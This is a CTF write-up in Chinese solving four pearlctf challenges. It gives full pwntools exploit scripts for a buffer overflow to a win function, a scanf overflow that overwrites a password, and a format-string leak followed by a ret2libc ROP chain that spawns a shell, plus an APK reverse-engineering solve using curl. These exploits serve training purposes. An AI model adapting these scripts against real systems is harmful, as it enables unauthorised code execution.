

> 這次有逼自己趕快把 writeup 寫出來


## information

Ranking: `44th / 1024`




<hr/>

## Treasure Hunt
保護機制
```bash
$ checksec vuln
[*] '/home/kali/CTF/pwn/Treasure_Hunt/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

進去看到 4 個 function 還有 4組對應的 `check_key` 
```c
undefined8 check_key(int param_1,char *param_2)
{
  int iVar1;
  undefined4 extraout_var;
  char *local_38 [4];
  char *local_18;
  
  local_38[0] = "whisp3ring_w00ds";
  local_38[1] = "sc0rching_dunes";
  local_38[2] = "eldorian_ech0";
  local_38[3] = "shadow_4byss";
  local_18 = "3ternal_light";
  iVar1 = strcmp(param_2,local_38[param_1]);
  return CONCAT71((int7)(CONCAT44(extraout_var,iVar1) >> 8),iVar1 == 0);
}
```

輸入完後可以進到這個有 `bof` 漏洞的 function 
```c
void chamber_of_eternity(void)
{
  char local_48 [64];
  
  puts("\nLevel 5: The Chamber of Eternity");
  puts(
      "A vast chamber bathed in celestial light. The Key of Eternity hovers at its center, pulsing w ith cosmic energy, awaiting the one deemed worthy."
      );
  puts("A single light illuminates the Key of Eternity.");
  printf("You are worthy of the final treasure, enter the final key for the win:- ");
  getchar();
  fgets(local_48,500,stdin);
  puts("GGs");
  return;
}
```

binary 裡面有 `winTreasure` function ，不過有檢查 `eligible` 這個全域變數
```c
void winTreasure(void)
{
  char local_58 [72];
  FILE *local_10;
  
  if (eligible == '\0') {
    puts("No flag for you!");
  }
  else {
    local_10 = fopen("flag.txt","r");
    fgets(local_58,0x40,local_10);
    puts(local_58);
  }
  return;
}
```

去看 `eligible` 的 reference 發現有這個 function 可以去更改他的值
```c
void setEligibility(void)
{
  eligible = 1;
  return;
}
```

所以先填入 `0x40 + 0x08` 個 padding 填滿 stack 和 old rbp，之後依序填入 `setEligibility` 和 `winTreasure` 的 address 就可以拿到 `flag` 
```python
from pwn import *

p = process('./vuln')
# p = remote("treasure-hunt.ctf.pearlctf.in", 30008)

set_eligible_addr = 0x0040126c
win_addr = 0x00401207
payload = b"A" * 0x40 + b"B" * 0x08 + p64(set_eligible_addr) + p64(win_addr)
password = ["whisp3ring_w00ds", "sc0rching_dunes", "eldorian_ech0", "shadow_4byss"]

for i in range(4):
    p.recvuntil(b": ")
    p.sendline(password[i].encode("utf-8"))

p.recvuntil(b"- ")
p.sendline(payload)
p.recvline()
flag = p.recvline()
p.close()

print("flag: "+flag.decode())

```

## Readme Please
保護機制
```bash
$ checksec main
[*] '/home/kali/CTF/pwn/Readme_please/source/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

會先檢查檔案是否有正常被 `fopen` ，之後如果開啟的檔案是 `flag.txt` 就會要求輸入密碼並驗證密碼
```c
    pcVar2 = __xpg_basename(local_178);
    __stream = fopen(local_178,"r");
    if (__stream == (FILE *)0x0) {
      puts("Please don\'t try anything funny!");
      fflush(stdout);
    }
    else {
      iVar1 = strcmp(pcVar2,"flag.txt");
      if (iVar1 == 0) {
        printf("Enter password: ");
        fflush(stdout);
        __isoc99_scanf(&DAT_00102088,input);
        iVar1 = strcmp(input,password);
        if (iVar1 != 0) {
          puts("Incorrect password!");
          fflush(stdout);
          goto LAB_001015f2;
        }
      }
```

密碼是根據 `/dev/urandom` 產生
```c
void generate_password(void *output,ulong len)
{
  char cVar1;
  int __fd;
  ulong uVar2;
  ulong local_10;
  
  __fd = open("/dev/urandom",0);
  if (__fd < 0) {
    perror("Failed to open /dev/urandom");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar2 = read(__fd,output,len);
  if (uVar2 != len) {
    perror("Failed to read random bytes");
    close(__fd);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  close(__fd);
  for (local_10 = 0; local_10 < len; local_10 = local_10 + 1) {
    cVar1 = *(char *)(local_10 + (long)output);
    *(char *)(local_10 + (long)output) =
         cVar1 + ((char)((short)(cVar1 * 0x100af) >> 0xe) - (cVar1 >> 7)) * -0x5e + '!';
  }
  *(undefined *)(len + (long)output) = '\0';
  return;
}
```

原本以為是 `generate_password` 有問題。結果發現`scanf("%s")`  可以讓 `input` 蓋到其他 stack 上的記憶體，且 `input` 在  `rbp-0x100` 、 `password` 在 `rbp-0x90` 所以可以把 `password` 覆寫成任意字串
```python
from pwn import *

# p = process("./main")
p = remote("readme-please.ctf.pearlctf.in", 30039)
payload = b"a" * 111 + b'\x00' + b"a" * 111 + b'\x00'

p.recvuntil(b": ")
p.sendline(b"files/flag.txt")

p.recvuntil(b": ")
p.sendline(payload)

flag = p.recvline()

p.close()

print("flag: " + flag.decode())
```


## Mr. %ROPOT%
保護機制
```bash
$ checksec chall
[*] '/home/kali/CTF/pwn/MrROPOT/mrropot/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

因為有提供 `libc` 所以用 [pwninit](https://github.com/io12/pwninit) patch binary 使本地測試更順利
```bash
$ pwninit
bin: ./chall
libc: ./libc.so.6
ld: ./ld-linux-x86-64.so.2

unstripping libc
https://launchpad.net/ubuntu/+archive/primary/+files//libc6-dbg_2.39-0ubuntu8.3_amd64.deb
copying ./chall to ./chall_patched
running patchelf on ./chall_patched
writing solve.py stub
```

binary 裡面有兩個漏洞，第一個是 `printJoke` 裡面的 `fmt`
```c
void printJoke(void)
{
  char local_38 [44];
  int local_c;
  
  local_c = getRandom(0,0xfa);
  puts("JOKE: ");
  puts(*(char **)(JOKES + (long)local_c * 8));
  puts("Did you like the joke? Leave a response: ");
  fgets(local_38,0x20,stdin);
  puts("Your Response:");
  printf(local_38);
  puts("has been recorded.");
  return;
}
```

另一個是 `printFact` 裡面的 `bof`
```c
void printFact(void)
{
  char local_38 [44];
  int local_c;
  
  local_c = getRandom(0,100);
  puts("FACT: ");
  puts(*(char **)(FACTS + (long)local_c * 8));
  puts("Did you like the fact? Leave a response: ");
  fgets(local_38,0x200,stdin);
  puts("Your Response:");
  printf(local_38);
  puts("has been recorded.");
  return;
}
```

因為有開 `NX` 且 binary 裡面沒有可以直接取得 flag 的 function 所以決定 `ret2lib`。在測試 `fmt` 的漏洞的時候，發現 stack 上有一段 libc 的記憶體洩漏
```bash
...
Did you like the joke? Leave a response:
%p
Your Response:
0x7f4e1ef5d643
```

```bash
pwndbg> info proc mapping
...
      0x7f4e1ed59000     0x7f4e1ed81000    0x28000        0x0  r--p   /home/kali/CTF/pwn/MrROPOT/mrropot/libc.so.6
...
      0x7f4e1ef5c000     0x7f4e1ef5e000     0x2000   0x202000  rw-p   /home/kali/CTF/pwn/MrROPOT/mrropot/libc.so.6
...
```

相減後就可以拿到 `offset` 
```bash
$ python -c "print(hex(0x7f4e1ef5d643-0x7f4e1ed59000))"
0x204643
```
> 之後用 leak 出的 address 減 `offset` 就可以算出 libc 的 base

最後再去 libc 裡面找 `gadget`
```bash
$ ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi
0x000000000002a873 : pop rdi ; pop rbp ; ret
0x0000000000158748 : pop rdi ; pop rbx ; pop r12 ; pop r13 ; pop r14 ; pop rbp ; ret
0x000000000010f75b : pop rdi ; ret # ✅
```

```bash
$ strings -a -t x libc.so.6 | grep "/bin/sh"
 1cb42f /bin/sh
```

```bash
$ ROPgadget --binary libc.so.6 --only "ret"
...
0x000000000002882f : ret
...
```

```bash
$ readelf -s libc.so.6 | grep system
  1050: 0000000000058740    45 FUNC    WEAK   DEFAULT   17 system@@GLIBC_2.2.5 # ✅
   534: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS system.c
   535: 00000000000582c0   878 FUNC    LOCAL  DEFAULT   17 do_system
  3886: 0000000000178180    98 FUNC    LOCAL  DEFAULT   17 __GI_svcerr_systemerr
  4802: 0000000000178180    98 FUNC    LOCAL  DEFAULT   17 __EI_svcerr_systemerr
  8117: 0000000000058740    45 FUNC    GLOBAL DEFAULT   17 __libc_system
  8751: 0000000000058740    45 FUNC    WEAK   DEFAULT   17 system
 10242: 0000000000178180    98 FUNC    GLOBAL DEFAULT   17 svcerr_systemerr[...]
```

exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("mr---ropot.ctf.pearlctf.in", 30009)

    return r


def main():
    r = conn()
    # good luck pwning :)
    leak_offset = 0x204643
    r.sendlineafter(delim=b"3. Exit", data=b"1")
    
    r.sendlineafter(delim=b"Leave a response:", data=b"%p")
    
    r.recvuntil(b"Your Response:")
    r.recvline()
    lib_base = int(r.recvline(keepends=False).decode(), 16) - leak_offset
    success("ASLR base: "+hex(lib_base))
    
    pop_rdi = p64(lib_base + 0x000000000010f75b)
    binsh = p64(lib_base + 0x1cb42f)
    ret = p64(lib_base + 0x000000000002882f)
    system = p64(lib_base + 0x0000000000058740)
    payload = b"A" * 0x30 + b"B" * 0x8 + pop_rdi + binsh + ret + system
    
    r.sendlineafter(delim=b".", data=b"2")
    
    r.sendlineafter(delim=b"response:", data=payload)
    r.interactive()
    
    r.close()
    # print(hex(lib_base))
    # r.interactive()

if __name__ == "__main__":
    main()
```

## ShadowVault
題目給了一個 .apk檔，裝好後打開發現是一個登入頁面


用 [jadx](https://github.com/skylot/jadx) 反編譯後找到 username 和 password
```java
...
final String username = "Player118";
final String password = "Gv8@kz#1qP$Xy!tM";
...
```

登入後發現GPS功能的請求和這個 button


按下後出了 message `OOPS, You must travel to moon🌚 for the flag!` 。之後發現他打了一支API
```java
public final class RetrofitClient {
    private static final String BASE_URL = "https://pearlctf.pythonanywhere.com/";
    public static final RetrofitClient INSTANCE = new RetrofitClient();
    /* renamed from: instance$delegate, reason: from kotlin metadata */
  
    private static final Lazy instance = LazyKt.lazy(new Function0() { // from class: com.example.app.ui.theme.RetrofitClient$$ExternalSyntheticLambda0
  
        @Override // kotlin.jvm.functions.Function0
        public final Object invoke() {
            AuthService instance_delegate$lambda$0;
            instance_delegate$lambda$0 = RetrofitClient.instance_delegate$lambda$0();
            return instance_delegate$lambda$0;
        }
    });
  
    public static final int $stable = 8;
    
    private RetrofitClient() {
    }
   
    public final AuthService getInstance() {
        Object value = instance.getValue();
        Intrinsics.checkNotNullExpressionValue(value, "getValue(...)");
        return (AuthService) value;
    }
    /* JADX INFO: Access modifiers changed from: private */
    
    public static final AuthService instance_delegate$lambda$0() {
        return (AuthService) new Retrofit.Builder().baseUrl(BASE_URL).addConverterFactory(GsonConverterFactory.create()).build().create(AuthService.class);
    }
}

...
public interface AuthService {
    @POST("/location")
    Object locationCheck(@Body Coordinates coordinates, Continuation<? super Response<Flag>> continuation);
}
...
public final /* data */ class Coordinates {
    public static final int $stable = 0;
    private final int latitude;
    private final int longitude;
	...
```

用 `curl` 試打確定了 URL 和參數
```bash
$ curl -X POST "https://pearlctf.pythonanywhere.com/location" -H "Content-Type: application/json" -d '{"latitude": 0, "longitude": 0}'
{"flag":""}
```

最後在 `RetrofitClient` 裡面找到指定的經緯度
```java
public final class MainActivity extends ComponentActivity {
    public static final int $stable = 8;
    private int desiredLatitude = 100;
    private int desiredLongitude = this.desiredLatitude * 2;
    ...
```

輸入指定的經緯度後取得 flag
```bash
$ curl -X POST "https://pearlctf.pythonanywhere.com/location" -H "Content-Type: application/json" -d '{"latitude": 100, "longitude": 200}'
{"flag":"pearl{r3v3rs3_c4ptur3_3xpl0it}"}
```
